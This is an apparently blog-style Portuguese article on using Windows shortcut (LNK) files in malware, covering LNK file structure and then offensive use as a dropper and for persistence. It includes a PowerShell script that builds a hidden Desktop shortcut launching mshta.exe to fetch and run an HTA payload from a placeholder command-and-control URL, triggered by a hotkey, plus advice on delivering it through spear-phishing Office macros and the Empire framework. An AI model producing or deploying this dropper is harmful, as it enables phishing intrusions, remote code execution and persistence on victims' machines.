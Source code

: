 ```yaml
---
title: 'O uso de LNK em malwares'
layout: post
---
```


![image](https://hackmd.io/_uploads/H1hVX1MNyx.png)

O uso de Shortcuts em malwares
===

[toc]

# Introdução
Resolvi escrever este artigo pra abordar o uso de shortcuts do windows (LNK, URL, CDA, PIF, etc..) porque isso tá em alta ultimamente, o uso de shortcuts como dropper em phishings tem sido usado por diversos APTs (Vedalia, Fireant, APT37, APT-C-53, etc..) e é algo simples.

Você pode usar um shortcut pra persistência e acesso inicial, no caso vou abordar os 2.
## Shortcuts
Os Windows shortcuts files foram trazidos no win95, o windows utiliza `.lnk` como nome de extensão pra shortcuts de arquivos locais e `.url` para shortcuts de arquivos remotos (ex: paginas da web).

> Os icones dos shortcuts são assim:
> ![image](https://hackmd.io/_uploads/rk4f2kfN1l.png)
O icone é assim mas voce pode tirar essa setinha apagando a key `IsShortcut` no `HKEY_CLASSES_ROOT\lnkfile` no Registry do windows *(aviso: faça por sua conta em risco, pode ter a chance de dar um problema apos isso)*
## Estrutura do LNK
A estrutura do LNK é a seguinte:
1. `SHELL_LINK_HEADER` - Essa é uma estrutura obrigatória que contém informações e flags necessárias pro resto das estruturas do LNK.
2. `LINKTARGET_IDLIST` - Especifica o alvo do shortcut (o que vai ser linkado ao shortcut) passando na estrutura `ItemID`.
3. `LINKINFO` - Informações sobre a localização do alvo do shortcut.
4. `STRING_DATA` - Tem informações de paths do shortcut. As estruturas da `STRING_DATA` em sua maioria são opcionais, a maioria só vai ser definida se estiver no `LinkFlags` do `MS-SHLLINK`/`ShellLinkHeader`. (**Preste atenção nessas estruturas, elas podem revelar sua operação maliciosa**):
    - `RELATIVE_PATH`: arquivo embedaddo no LNK.
    - `WORKING_DIR`: diretorio onde o arquivo embedaddo no LNK se encontra.
    - `COMMAND_LINE_ARGUMENTS`: argumentos passados pra executar o binario.
5. `EXTRA_DATA` - Informações extras pro LNK.
# Dropper
Um dropper é um snippet pra carregar um malware (na maioria das vezes packed), por exemplo pra mitigar detecção por XDR/EPP. O dropper é utilizado mais por questão de OPSEC mesmo.
## Usando LNK como dropper
Você pode simplesmente embeddar um LOLBINs (sla, invoca o `mshta` pra executar teu payload ou o `regsrv32`, seja criativo) ao teu LNK e (colocando o path no `Target` nas Propriedades do shortcut) e se tu quiser (opcional) setupar uma tecla pra triggar esse LNK e executar teu comando do LOLBIN.

Ou tu pode criar um COM pra criar um LNK pra você.
### Criando um LNK via COM com PS1
```powershell
$path                      = "$([Environment]::GetFolderPath('Desktop'))\DROPPER.lnk"       # path do lnk
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)
$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"   # ICONE
$shortcut.TargetPath       = "mshta.exe"
$shortcut.Arguments        = "http://meu-c2.com/foda.hta"   # mshta.exe http://meu-c2.com/foda.hta
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+Z" # TECLA PRA ATIVAR O LNK, OPCIONAL
$shortcut.Description      = "shortcut" # OPCIONAL DESCRICAO DO SHORTCUT
$shortcut.WindowStyle      = 7
$shortcut.Save()
(Get-Item $path).Attributes += 'Hidden'
```
Pronto, agora você criou um LNK via COM com powershell scripting, mas poderia ter usado qualquer outra lang de scripting como C#, Python e VBScript, qualquer lang q consiga criar COM.
### Acesso inicial
Com esse LNK, voce pode sair fazendo spear-phishing embeddando ele a uma macro do Office. Um C2 que mexe muito bem com LNK é o [Empire](https://github.com/BC-SECURITY/Empire).
Essa técnica não é a melhor em questão de OPSEC (aliás, está bem longe kkkkkkkk) mas é bem interessante.
## Usando LNK como persistência
É o mesmo sentido, ou você roda um módulo qualquer do Empire ou você cria um LNK e seta uma tecla q vc ache q o alvo vai usar com frequencia ou não (ideias: F11, Shift, etc...)
